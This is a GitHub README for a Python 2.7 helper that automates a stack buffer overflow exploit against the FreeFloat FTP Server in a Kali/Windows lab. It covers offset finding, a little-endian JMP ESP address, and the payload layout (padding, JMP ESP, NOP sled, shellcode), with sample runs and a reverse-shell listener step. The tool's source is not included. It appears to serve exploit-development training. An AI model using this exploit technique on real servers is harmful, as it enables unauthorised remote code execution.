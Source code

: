 # Buffer_helper

* Buffer_Helper.py Help To Test Buffer overflow FTP Server Exploit .

* write by python 2.7

## Required
* generate your own shell code and replace it in the buffer_helper.py

* create your listner use msfconsloe or netcat


### steps 

1- add the string as input you can use any character input .

 * make sure your string input above "300" character.

 * the buffer_helper  will give output the random sting automatically have same length of the input string .

 * input can be  "aaaaaaaaaaaaa or AAAAAAAA or 11111111/22222222"
```
Examples 

[+]Enter your reguset:aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa 

[+]character length is : 38 

[+]Generated String is: taoeboshifrhuyloeggipydyizkdrqnmtjzxdx

[+]The New character length is: 38


```

2- input the ip address of FTP server and the port .

* buffer_helper will send the data to server .
```
Examples 

+]server ip : 10.195.100.230

[+]server port :21

[+]data send successful...!!!

```

### over write 

3- after the EIP addrres get over write  .


* input the  EIP address as hexadecimal . 7755BBFF or 7755bbff .

* buffer_helper will will get the The ASCII Value make over wirte will print it .

* will print out Exact satch at offset .

```
Examples 

[+]Enter hexadecimal Crach address: 79726d74

[+]The ASCII Value  is :  tmry

[+]Exact satch at offset :  251

```
### little endian network style  . 

* buffer_helper will aske for JMP ESP address.

* input it as hexadecimal 7755BBFF or 7755bbff 

*the buffer_helper will reversed automatically and  prit it as "\xFF\x\bbx\x55\x77"

```
Example:


[+] Enter JMP ESP addrsss HEX  : 75c24e5b

[+]little endian JMP ESP  is :  \x5B\x4E\xC2\x75


```


### attack
* buffer_helper will  management and handling the attack

* calculates automatically and send all payload to server and print out the result.

```
 Example

[+] attack = 251 of "A" + JMP ESP = \x5B\x4E\xC2\x75 + 144 of("\x90")  + shell code

[+]conncet server ip is  :  10.195.100.230

[+]conncet server port is  :  21

[+]WE READY TO ATTACK !![+]

[+]data send successful...!!!

[+]-------------------------{THANK YOU}--------------------------[+]

 ____         __  __             _   _      _                  
| __ ) _   _ / _|/ _| ___ _ __  | | | | ___| |_ __   ___ _ __  
|  _ \| | | | |_| |_ / _ \ '__| | |_| |/ _ \ | '_ \ / _ \ '__| 
| |_) | |_| |  _|  _|  __/ |    |  _  |  __/ | |_) |  __/ |    
|____/ \__,_|_| |_|  \___|_|    |_| |_|\___|_| .__/ \___|_|    
                                             |_|        

```

# all Steps



```
 ____         __  __             _   _      _                  
| __ ) _   _ / _|/ _| ___ _ __  | | | | ___| |_ __   ___ _ __  
|  _ \| | | | |_| |_ / _ \ '__| | |_| |/ _ \ | '_ \ / _ \ '__| 
| |_) | |_| |  _|  _|  __/ |    |  _  |  __/ | |_) |  __/ |    
|____/ \__,_|_| |_|  \___|_|    |_| |_|\___|_| .__/ \___|_|    
                                             |_|        


[+]Enter your reguset:aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

[+]character length is : 399

[+]Generated String is: rxgixmqoraszkfokqpbyexikbraqjossknbkjtlhbzatqmkxggqibjqfqcccvcgazfaxwtqreqzliyhglwnhfiiexhvrpcgiefqwaraqchhjywhxwfvmurdwelikuywgbvelqsxoaivhhykqaajizxwyobfcpfatnhzbwplteeanhbxcvnsnilnfpctlhlopvocmuciezjbyrgdfcspjahklvwrhfnafkammbucrzoljlobqzlsfmgrhikptmryomphwisryixvhrfmxsjcdjmnbagxhqlxpnzxptecckpvwmnscclkkiskhzmggdjkmalzmyjeyobgdscowqzunlgqshbaikplkekpqulpkmelilkqmataboikcgzzzznhurxcldwfnhefbyhy

[+]The New character length is: 399

[+]server ip : 10.195.100.230

[+]server port :21

[+]data send successful...!!!

[+]Enter hexadecimal Crach address: 79726d74

[+]The ASCII Value  is :  tmry

[+]Exact satch at offset :  251

[+] Enter JMP ESP addrsss HEX  : 75c24e5b

[+]little endian JMP ESP  is :  \x5B\x4E\xC2\x75

[+] attack = 251 of "A" + JMP ESP = \x5B\x4E\xC2\x75 + 144 of("\x90")  + shell code

[+]conncet server ip is  :  10.195.100.230

[+]conncet server port is  :  21

[+]WE READY TO ATTACK !![+]

[+]data send successful...!!!

[+]-------------------------{THANK YOU}--------------------------[+]

 ____         __  __             _   _      _                  
| __ ) _   _ / _|/ _| ___ _ __  | | | | ___| |_ __   ___ _ __  
|  _ \| | | | |_| |_ / _ \ '__| | |_| |/ _ \ | '_ \ / _ \ '__| 
| |_) | |_| |  _|  _|  __/ |    |  _  |  __/ | |_) |  __/ |    
|____/ \__,_|_| |_|  \___|_|    |_| |_|\___|_| .__/ \___|_|    
                                             |_|        

```
## Required Software / Setup


ttacking system: Kali Linux

*Victim system: Windows 

*Immunity debugger https://www.immunityinc.com/products/debugger/

* FloatFTP - The application we are going to exploit https://archive.org/details/tucows_367516_Freefloat_FTP_Server


## connect me at 

* administrator@jacstory.tech 

*this is first code for me in github

*so sorry for my Einglish
  
*thank you for reading it 

